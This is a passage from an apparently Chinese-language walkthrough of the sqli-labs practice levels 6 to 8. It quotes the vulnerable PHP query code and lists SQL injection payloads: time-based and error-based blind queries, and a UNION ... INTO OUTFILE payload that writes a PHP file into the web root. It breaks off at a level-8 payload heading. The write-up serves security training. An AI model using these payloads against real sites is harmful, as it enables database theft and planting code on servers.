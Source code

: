 ```
?id=1" and if(ascii(substr(database(),1,1)=115),sleep(3),1) --+
?id=1"  and updatexml(1,concat(0x7e,(select user()),0x7e),1) --+
```
## less-7
##### index.php
本关的标题是 dump into outfile,意思是本关我们利用文件导入的方式进行注入
```
$id=$_GET['id'];
$sql="SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1";
if($row){
  echo 'You are in.... Use outfile......';
}else{
echo 'You have an error in your SQL syntax';
}
```
使用`')) and 1=2 --+`判断存在注入

```
?id=1')) union select 1,2,3 into outfile "C:\\phpStudy\\PHPTutorial\\www\\sqli1\\Less-7\\7.txt"--+
```
提示：

```
 You have an error in your SQL syntaxThe MySQL server is running with the --secure-file-priv option so it cannot execute this statement 
```
在my.ini中设置`secure_file_priv = "C:/phpStudy/PHPTutorial/www"`,重启服务


![image](https://note.youdao.com/yws/res/11132/CC7CB031E68B451499F622A023A2ADC1)
#### payload

```
?id=1')) union select 1,2,3 into outfile "C:\\phpStudy\\PHPTutorial\\www\\7.txt"--+
?id=1')) union select 1,2,"<?php phpinfo();?>" into outfile "C:\\phpStudy\\PHPTutorial\\www\\1.php"--+
```
![image](https://note.youdao.com/yws/res/11135/4767D96FAA4A41B09E5850CB3DB292BE)

## less-8
##### index.php
只能使用布尔盲注和延时盲注，与less-5相同
```
$id=$_GET['id'];
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
if($row){
echo 'You are in...........';
}else{
	
}
```
#### payload
